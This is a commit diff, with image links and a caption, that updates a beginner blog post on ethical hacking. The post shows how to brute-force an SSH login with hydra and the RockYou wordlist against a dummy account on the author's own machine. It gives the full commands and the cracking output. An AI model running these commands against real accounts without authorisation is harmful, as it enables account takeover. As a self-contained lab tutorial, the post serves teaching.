

Before and after one commit to tomvopat/personal_webpage, a Jekyll site: the page built from data/_posts/ethical-hacking-intro/2023-03-26-ethical-hacking-intro.md, in a window 1280 px wide and 1400 px high, scrolled down 1529 px. Shown: the whole window, without its empty margins (251-1062 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update the intro to ethical hacking blog post

`````diff
--- a/data/_posts/ethical-hacking-intro/2023-03-26-ethical-hacking-intro.md
+++ b/data/_posts/ethical-hacking-intro/2023-03-26-ethical-hacking-intro.md
@@ -23,57 +23,67 @@ Follow the [official website][1] to install the Kali Linux.
 
 ## SSH Brute-Force Dictionary Attack
 
-Instead of trying manually one password after another, let's automate that
-process. We will create a list of possible passwords and pass that list to a
-smart program that will try all those passwords for us.
+Brute-force attach is the kind of attach where the attacker tries all possible values to crack for
+example some password. In this introduction we will create a Linux user account that we will try to
+hack.
+
+Instead of trying manually one password after another, let's automate that process. We will create a
+list of possible passwords and pass that list to a smart program that will try all those passwords
+for us.
 
 On Kali Linux there is a program called `hydra`. Kali Linux also comes with a
-list of possible passwords - RockYou list [2] (comes from the incident in 2009).
+list of possible passwords - [RockYou list][2] (comes from the incident in 2009).
 The file is located in `/usr/share/wordlists/rockyou.txt.gz` and contains 14
 million records. We will use this list to crack a Linux user account.
 
 First of all unzip the file with passwords (also called a dictionary).
 
-`gunzip /usr/share/wordlists/rockyou.txt.gz`
+`sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
 
 > You can try to find your passwords in the list using `grep`. If you find some
 > of them there, then it would be the best to change those immediately.
 
 Now let's use the `hydra` to crack the password. For testing purposes I have
-created on my Raspberry Pi 3 new account `dummy` with password `winniethepooh`.
+created a new account `dummy` with password `winniethepooh` in my Kali virtual machine.
 
-`useradd dummy`
+```bash
+sudo useradd --no-create-home --no-user-group dummy`
+sudo passwd dummy
+````
+
+You will also need to enable SSH to allow incoming connections
+
+`sudo service ssh start`
 
 Next, run the `hydra` to crack the password. This time we are not going to crack
 the username, instead we will pass the username to `hydra` manually to simplify
 and speed up the process.
 
-`sudo hydra -l "dummy" -P /usr/share/wordlists/rockyou.txt <ip_address> ssh`
+`hydra -l "dummy" -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`
 
-This might take a while, because Linux is trying to slow potentional attacker
+This might take a while, because Linux is trying to slow potential attacker
 down by adding extra timeout when logging in over SSH. After couple moments you
 get the first output with statistics:
 
 ```bash
 ┌──(kali㉿kali)-[~/Desktop]
-└─$ sudo hydra -l "dummy" -P /usr/share/wordlists/rockyou.txt pi3 ssh
-Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in
-military or secret service organizations, or for illegal purposes (this is
-non-binding, these *** ignore laws and ethics anyway).
+└─$ hydra -l dummy -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
+Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret
+service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and
+ethics anyway).
 
-Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-03
-13:34:08
-[WARNING] Many SSH configurations limit the number of parallel tasks, it is
-recommended to reduce the tasks: use -t 4
-[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries
-(l:1/p:14344399), ~896525 tries per task
-[DATA] attacking ssh://pi3:22/
-[STATUS] 147.00 tries/min, 147 tries in 00:01h, 14344255 to do in 1626:20h, 16
-active
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-26 12:54:03
+[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce
+the tasks: use -t 4
+[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525
+tries per task
+[DATA] attacking ssh://127.0.0.1:22/
+[STATUS] 114.00 tries/min, 114 tries in 00:01h, 14344286 to do in 2097:08h, 15 active
+^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
 ```
 
-You can notice in the printout that the current speed is 147 passwords per
-minute and the time to finish is 1626 hours (68 days), therefore it might be
+You can notice in the printout that the current speed is 114 passwords per
+minute and the time to finish is 2097 hours (87 days), therefore it might be
 better to use smaller dictionary for testing purposes.
 
 I have reduced the dictionary size to 200 records (but included the
@@ -81,30 +91,36 @@ I have reduced the dictionary size to 200 records (but included the
 
 ```bash
 cat /usr/share/wordlists/rockyou.txt | \
-head -n 100000 | \
-sort --random-sort | \
-head -n 200 | \
-sed '1s/.*/winniethepooh/' | \
-sort --random-sort > ~/wordlist.txt`
+  head -n 100000 | \
+  sort --random-sort  | \
+  head -n 200 | \
+  sed '1s/.*/winniethepooh/' | \
+  sort --random-sort > ~/word_list.txt
 ```
 
 Now it is possible to run `hydra` again with the smaller wordlist. After two
 minutes at latest we should crack the password.
 
-`sudo hydra -l "dummy" -P ~/wordlist.txt <ip_address> ssh`
+`hydra -l dummy -P ~/word_list.txt ssh://127.0.0.1`
 
 After a moment we got the result with correct password.
 
 ```bash
-[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200),
-~13 tries per task
-[DATA] attacking ssh://pi3:22/
-[STATUS] 97.00 tries/min, 97 tries in 00:01h, 104 to do in 00:02h, 16 active
-[22][ssh] host: pi3   login: dummy   password: winniethepooh
+┌──(kali㉿kali)-[~/Desktop]
+└─$ hydra -l dummy -P ~/word_list.txt ssh://127.0.0.1
+Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-26 13:03:59
+[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
+[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
+[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
+[DATA] attacking ssh://127.0.0.1:22/
+[22][ssh] host: 127.0.0.1   login: dummy   password: winniethepooh
 1 of 1 target successfully completed, 1 valid password found
-Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-03
-14:02:29
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-26 13:05:02
 ```
+
+Hydra was able to crack the password of the user account: `winniethepooh`.
 
 This was the first introductory blog post about ethical hacking. Thanks for
 reading!
`````
